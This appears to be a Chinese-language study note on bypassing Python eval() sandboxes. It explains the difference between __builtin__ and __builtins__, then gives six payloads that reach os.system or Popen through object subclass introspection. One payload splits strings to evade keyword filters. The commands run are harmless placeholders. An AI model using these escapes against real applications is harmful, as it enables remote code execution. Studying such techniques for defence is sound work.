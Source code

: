 参考：
	- https://www.cnblogs.com/iamstudy/articles/python_eval_and_bypass_sandbox_study.html
	- https://blog.51cto.com/xpleaf/1764849

## builtin与builtins的区别与关系
python3
	python3中只有__builtins__了

python2
	1. 在Python中并没有__builtins__这个模块，只有__builtin__模块，而__builtins__模块只是在启动Python解释器时，解释器为我们自动创建的一个到__builtin__模块的引用
	2. 在主模块__main__中,两者完全一样
	3. 非主模块中，模块__builtins__其实是对__builtin__的__dict__模块的引用

## 利用
原型：eval(expression[, globals[, locals]])
globals为字典形式,locals为任何映射对象,分别是全局和局部命名空间，如果传入globals字典缺失__builtins__的时候，当前的全局命名空间将作为globals参数输入并且在表达式之前被解析，locals默认和globals相同，如果两个都省略掉话，表达式将在eval()调用的环境里面执行

1. 最简单的
```python
eval(__import__('os').system('dir'))
```

2. 置空无效
本地测试没有成功....
```python
env = {}
env["locals"]   = None
env["globals"]  = None
env["__name__"] = None
env["__file__"] = None
env["__builtins__"] = None
 
eval(users_str, env)
```

3. 调用egg
（python2）
```python
# http://pypi.python.org/packages/2.5/C/ConfigObj/configobj-4.4.0-py2.5.egg
[x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__ == "zipimporter"][0]("configobj-4.4.0-py2.5.egg").load_module("configobj").os.system("uname")
```

4. 使程序退出
（python2）
```python
eval("[x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__=='Quitter'][0](0)()", {'__builtins__':None})
```

5. 事先导入过一些模块
（python2，python3）
```python
import subprocess
eval("[x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__ == 'Popen'][0](['ping','-c','1','127.0.0.1'])", {'__builtins__':None ,'__builtin__':None})
```

6. 寻找含有os模块的类
（python2）
```python
[x for x in [].__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('echo Hello SandBox')
```
